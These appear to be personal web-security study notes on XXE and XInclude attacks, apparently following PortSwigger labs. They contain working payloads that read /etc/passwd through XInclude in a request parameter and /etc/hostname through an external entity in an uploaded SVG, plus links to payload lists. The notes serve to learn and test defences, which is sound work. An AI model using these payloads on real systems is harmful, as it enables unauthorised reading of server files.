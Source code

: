 #### Exploiting XXE to retrieve data by repurposing a local DTD
Use percent symbol because this give you more information(?)

##### Payloads and dictionaries
+ https://github.com/GoSecure/dtd-finder/tree/master
+ https://github.com/GoSecure/dtd-finder/blob/master/list/xxe_payloads.md

#### Exploiting XInclude to retrieve files
First step, checking if the entities are allowed
~~~xml
%26entity;
~~~
+ Result:
	+ "Entities are not allowed for security reasons" or ANOTHER

Attack
~~~xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
~~~

##### Example
~~~bash
# Normal petition
productId=1&storeId=1

# Checking for entities attack
productId=%26xxe;&storeId=1

# Retrive data 
productId=<xinclude xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></xinclude>&storeId=1
~~~

#### XXE attacks via file upload
~~~xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
~~~

#### XXE attacks via modified content type


#### Más información
+ https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files
+ https://www.w3schools.com/xml/xml_dtd.asp 
+ https://github.com/streaak/keyhacks
+ https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html
+ Extension: Content-Type-Converter


